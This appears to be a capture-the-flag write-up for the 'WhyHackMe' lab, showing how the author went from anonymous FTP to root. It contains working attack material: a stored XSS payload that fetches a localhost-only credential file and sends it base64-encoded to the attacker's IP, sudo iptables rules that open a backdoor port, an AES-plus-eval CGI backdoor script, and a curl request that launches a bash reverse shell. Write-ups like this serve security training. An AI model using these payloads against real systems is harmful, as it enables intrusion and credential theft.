<div align="center">


# WhyHackMe

**Difficulty:** Medium  
**Category:** Web / Network traffic

</div>

---


On nmap I can find port 41312 but it is filtered, I cannot access it. 

This was found from anonymous login on the ftp server:

`update.txt:`
```text
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 
- admin
```

Users:
* mike
* admin

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.80.154.5 http-post-form "/login.php:username=^USER^&password=^PASS^: Invalid username or password"
```
Doesn't work

```bash
gobuster dir -u http://10.80.154.5 -w /usr/share/wordlists/dirb/big.txt -x php
```
* Add `-x` and the extension that is found on the server.



I found xss!

On `register.php` I enter:




Now log in:




Now when I try to comment something I get this:



Instead of showing me the name, the code is executed:



I enter username:
```html
<script>fetch('http://192.168.135.169:1337')</script>
```

And set up a listener:
```bash
nc -lvnp 1337
```



I get a request!

I want to send the file `/dir/pass.txt`.

```html
<script>fetch('http://127.0.0.1/dir/pass.txt').then(r => r.text()).then(d =>{new Image().src='http://192.168.135.169:1337/'+btoa(d);});</script>
```

This as the username gives me this when I comment something:



The data that I want to access is inside of the `btoa(d)`. This is "b to a" or "ascii to basae64".
* `btoa(x)` from ascii to base64
* `atob(x)` from base64 to ascii

So the `GET /amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo=` is what we are looking for, the part after the `/` is the contents of `/dir/pass.txt`.

base64 decoded:
```creds
jack:WhyIs<REDACTED>IDK
```

I can now ssh as Jack



```bash
cat user.txt
1ca4e<REDACTED>a87b866a
```



I can use sudo with iptables

```bash
sudo iptables --list
```



Here I can see the filtered port 41312, I'll open up that port. So that I can access it.

```bash
sudo iptables -I ACCEPT 1 -s 192.168.135.169 -j ACCEPT
```
`-I` insert (1) first.

This is important, if i insert it after the DROP rule it will be dropped. Also default is probably set to DROP.




Accept from my machine towards port 41312.

Now I can nmap it:



It is another webserver.
https and I dont have permission.


I run this:
```bash
find / -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/home/jack/*" -writable 2>/dev/null
```
Nothing...

I use gobuster against the new webserver:
```bash
gobuster dir -u https://10.80.154.5:41312 -w /usr/share/wordlists/dirb/big.txt -k
```
`-k` or `--no-tls-validation` is the same thing. We dont care about not trusting the certificate for this server.

Nothing interesting...


I find this in `/opt/urgent.txt`:
```text
Hey guys, after the hack some files have been placed in /usr/lib/cgi-bin/ and when I try to remove them, they wont, even though I am root. Please go through the pcap file in /opt and help me fix the server. And I temporarily blocked the attackers access to the backdoor by using iptables rules. The cleanup of the server is still incomplete I need to start by deleting these files first.
```
And I get the pcap file:

```bash
scp jack@10.80.154.5:/opt/capture.pcap .
```

Since we know the port 41312 is the backdoor?
10.13.64.69 is being attacked by 10.133.71.33

But I cannot read anything since it is all TLS encrypted, I can only see the handshakes and encrypted data.

I can decrypt it in wireshark if I have the server private key.

```bash
find / -name "*.key" -o -name "*.pem" -o -name "privkey" 2>/dev/null
```
`-o`for find means **or**


Here I got A LOT of hits, but here is the most important part:



`/etc/apache2/certs/apache.key`.

I can get the contents:
```bash
cat /etc/apache2/certs/apache.key
```



And copy it over to my machine.

Now I can import the key into wireshark to decrypt some of the data:

* Go to Edit -> Preferences -> Protocols -> TLS -> "RSA keys list Edit.."
	* IP address: 10.80.154.5
	* Port: 41312
	* Protocol: http
	* Key File: <path_to_apache.key>
	* IMPORT!

Now I can search for HTTP:





I can see the RCE being executed!

There is a file in `/opt/cgi-bin` called `5UP3r53Cr37.py` which was hinted towards in the note previously:

```python
<h2>#!/usr/bin/python3
from Crypto.Cipher import AES
import os, base64
import cgi, cgitb
print("Content-type: text/html\n\n")
enc_pay = b'k/1umtqRYGJzyyR1kNy3Z+m6bg7Xp7PXXFB9sOih2IPNBRR++jJvUzWZ+WuGdax2ngHyU9seaIb5rEqGcQ7OJA=='
form = cgi.FieldStorage()
try:
        iv = bytes(form.getvalue('iv'),'utf-8')
        key = bytes(form.getvalue('key'),'utf-8')
        cipher = AES.new(key, AES.MODE_CBC, iv) 
        orgnl = cipher.decrypt(base64.b64decode(enc_pay))
        print("<h2>"+eval(orgnl)+"<h2>")
except:
        print("")
<h2>
```
This was received by running the following command:

```bash
curl "https://10.80.154.5:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=cat+5UP3r53Cr37.py" -k

# cat 5UP3r53Cr37.py
```
`-k` is to ignore TLS complaining about this server having untrusted certificates. We do not care.


I can copy the commands from wireshark in order to perform the RCE myself.

```bash
curl "https://10.80.154.5:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sudo+-l" -k

```



I can run all sudo commands!

```bash
curl "https://10.80.154.5:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sudo+bash+-c+'bash+-i+>%26+/dev/tcp/192.168.135.169/4444+0>%261'" -k
```
**IMPORTANT NOTE**
* I tried to URL encode it myself by using `+` instead of spaces. But I did not use `%26` for `&`-symbols. This is a requirement. Does not work with `&` since they are not URL friendly?

* Yeah, of course, they break the request.

This is the `bash -c "bash -i >& /dev/tcp/<ip>/port 0>&1"` reverse shell.



LETS GOOOO

```bash
cat root.txt
4dbe2259a<REDACTED>9b5475c72
```


The `iv` and `key` part of the URL are what make the `cmd` parameter work:
Together they decrypt into something like:

```python
__import__('os').popen(form.getvalue('cmd')).read()
```
Which executes the code inside the `cmd` parameter.


```python
orgnl = cipher.decrypt(base64.b64decode(enc_pay))
print("<h2>"+eval(orgnl)+"<h2>")
```
Where does the cmd get put into the `eval()` function?

